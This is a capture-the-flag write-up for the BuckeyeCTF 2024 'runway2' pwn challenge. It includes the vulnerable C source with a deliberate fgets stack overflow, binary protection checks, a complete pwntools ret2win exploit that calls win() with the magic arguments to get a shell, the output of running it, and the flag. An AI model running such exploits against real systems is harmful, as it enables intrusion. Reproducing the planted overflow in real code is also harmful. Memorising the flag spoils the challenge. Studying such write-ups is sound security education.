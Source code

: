 # runway2 [171 solves]
### Challenge Description
> Now with a twist!

`nc challs.pwnoh.io 13402`
### Challenge Author 
> Author: kanderoo
# Challenge Files 
we are given with the source file that was used for compiling the binary.
```c filename=runway2.c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <fcntl.h>
#include <sys/sendfile.h>

int win(int check, int mate) {
    if (check == 0xc0ffee && mate == 0x007ab1e) {
        printf("You win! Here is your shell:\n");
        fflush(stdout);

        system("/bin/sh");
    } else {
        printf("No way!");
        fflush(stdout);
    }
}

int get_answer() {
    char answer[16];

    fgets(answer, 0x40, stdin);

    return strtol(answer, NULL, 10);
}

int calculate_answer(int op1, int op2, int op) {
    switch (op)
    {
        case 0:
            return (op1 + op2);
        case 1:
            return (op1 - op2);
        case 2:
            return (op1 * op2);
        case 3:
            return (op1 / op2);
        default:
            exit(-1);
    }
}

int main() {
    int op1;
    int op2;
    int op;
    char operands[5] = "+-*/";
    int input;
    int answer;

    srand(time(0));

    printf("Pop quiz!\n");
    fflush(stdout);

    op1 = rand() % 30;
    op2 = rand() % 30;
    op = rand() % 4;

    printf("What is %d %c %d?\n", op1, op[operands], op2);
    fflush(stdout);

    input = get_answer();
    answer = calculate_answer(op1, op2, op);

    if (input == answer) {
        printf("Good job! No flag though :)\n");
    } else {
        printf("I don't think you're trying very hard.\n");
    }

    return 0;
}
```
# Solution
## Analysis
first analyse the provided binary
```bash
fooker@fooker:~/buckeyectf2024/pwn/runway2$ file runway2
runway2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=7dd57df77d8de995c3d60fcd8c80ca0d4a1db483, for GNU/Linux 3.2.0, not stripped
fooker@fooker:~/buckeyectf2024/pwn/runway2$ checksec runway2
[*] '~/buckeyectf2024/pwn/runway2/runway2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
so we are dealing again with a `32-bit ELF`. a quick scan reveals that we have a `win()` function and a buffer overflow in `get_answer()`.
## ret2win
to pop a shell, we need to however pass the correct parameters to the `win()` function
```c
int win(int check, int mate) {
    if (check == 0xc0ffee && mate == 0x007ab1e) {
        printf("You win! Here is your shell:\n");
        fflush(stdout);

        system("/bin/sh");
    } else {
        printf("No way!");
        fflush(stdout);
    }
}
```
since we are dealing with a `32-bit` binary, we must push the parameters onto the stack according to the `x86 calling convention`. this is good for us since we control the stack through the buffer overflow. 

i calculated the offsets at which the required parameters must be passed using `gdb`. then we just need to craft a `ret2win` ROP chain to get a shell. here's the full exploit.

```py
from pwn import *

exe = './runway2'
elf = context.binary = ELF(exe, checksec=True)

host = 'challs.pwnoh.io'
port = 13402
r = remote(host, port, level='DEBUG')

gs = '''
break *get_answer
continue
'''

# r = gdb.debug(exe, gdbscript=gs)

r.recvuntil(b'?\n')

payload = b'A' * (0x18 + 0x04)
payload += p32(elf.symbols['win'])
payload += b'A' * 0x04
payload += p32(0xc0ffee)
payload += p32(0x7ab1e)

r.sendline(payload)

r.interactive()
```
and if we run this exploit, we get a shell.
```bash
fooker@fooker:~/buckeyectf2024/pwn/runway2$ python3 exploit.py
[*] '~/buckeyectf2024/pwn/runway2/runway2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to challs.pwnoh.io on port 13402: Done
[*] Switching to interactive mode
You win! Here is your shell:
$ ls
flag.txt
run
$ cat flag.txt
bctf{I_m1sS_4r1thm3t1c_qu1ZZ3s_2349adb53baa2955}$
```
## Flag
`bctf{I_m1sS_4r1thm3t1c_qu1ZZ3s_2349adb53baa2955}`
